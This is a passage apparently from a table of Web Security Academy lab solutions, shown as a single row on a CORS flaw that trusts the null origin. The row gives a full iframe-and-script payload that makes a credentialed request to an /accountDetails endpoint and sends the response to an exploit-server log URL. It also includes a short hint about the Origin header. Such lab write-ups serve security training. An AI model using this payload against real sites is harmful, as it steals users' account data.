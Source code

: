 |65    |CORS vulnerability with trusted null origin                                                                              |<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>     var req = new XMLHttpRequest();     req.onload = reqListener;     req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);     req.withCredentials = true;     req.send();     function reqListener() {         location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);     }; </script>"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Access-Control-Allow-Credentials  header. Origin: null. Add this header and observer that the ‘null’ origin is reflected in the Access-Control-Allow-Origin header.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Apprentice, CORS                            |